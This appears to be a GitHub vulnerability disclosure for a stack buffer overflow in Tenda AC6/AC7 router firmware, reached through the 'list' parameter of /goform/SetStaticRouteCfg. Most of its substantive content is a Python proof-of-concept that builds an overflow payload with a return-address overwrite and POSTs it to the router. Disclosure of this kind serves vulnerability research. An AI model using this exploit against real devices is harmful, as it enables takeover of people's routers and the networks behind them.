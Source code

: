 # static_router_stackoverflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 US_AC7V1.0RTL_V15.03.06.44_multi_TD01
 
Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html

#### Describe

  In Tenda AC6 ,firemware is US_AC6V1.0BR_V15.03.05.16_multi_TD01 ,The httpd component does not limit the length of the post parameter when setting the static route in /goform/setstaticroutecfg, resulting in stack overflow covering the return address and code execution

#### Detail

<img src="./img/image-20210917120859736.png" alt="image-20210917120859736" style="zoom:50%;" />

follow up sub_77EC8

<img src="./img/image-20210917121019246.png" alt="image-20210917121019246" style="zoom:50%;" />

<img src="./img/image-20210917123041024.png" alt="image-20210917123041024" style="zoom:50%;" />

 	Therefore, a stack overflow vulnerability is generated, which can cover the return address 

<img src="./img/image-20210917121219712.png" alt="image-20210917121219712" style="zoom:50%;" />



<img src="./img/image-20210917121127321.png" alt="image-20210917121127321" style="zoom:50%;" />



POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetStaticRouteCfg"


payload = "a"*7+"f"*7+"c"+"b"*(0x30)+p32(0x000697D8)+"d"*0x80

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/static_route.html?random=0.9469249426877971&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)
```




